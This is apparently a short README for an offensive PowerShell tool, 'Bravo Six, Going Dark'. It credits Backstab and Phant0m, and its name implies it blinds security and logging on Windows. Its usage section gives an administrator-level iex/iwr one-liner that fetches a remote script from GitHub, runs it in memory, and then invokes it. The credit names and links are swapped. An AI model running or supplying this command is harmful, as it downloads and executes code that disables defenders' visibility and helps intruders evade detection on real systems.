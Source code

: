 # Bravo Six, Going Dark

```
___  ____ ____ _  _ ____    ____ _ _  _      ____ ____ _ _  _ ____    ___  ____ ____ _  _
|__] |__/ |__| |  | |  |    [__  |  \/       | __ |  | | |\ | | __    |  \ |__| |__/ |_/
|__] |  \ |  |  \/  |__|    ___] | _/\_ .    |__] |__| | | \| |__]    |__/ |  | |  \ | \_
-... .-. .- ...- ---    ... .. -..- --..--    --. --- .. -. --.    -.. .- .-. -.-
```

!! Require administrator shell

```powershell
iex (iwr https://github.com/RFC1918-hub/BravoSix/blob/main/Invoke-BravoSix.ps1 -UseBasicParsing)
Invoke-BravoSix
```

# Credits
[Yaxser/Backstab] (https://github.com/hlldz/Phant0m)
[hlldz/Phant0m] (https://github.com/Yaxser/Backstab)
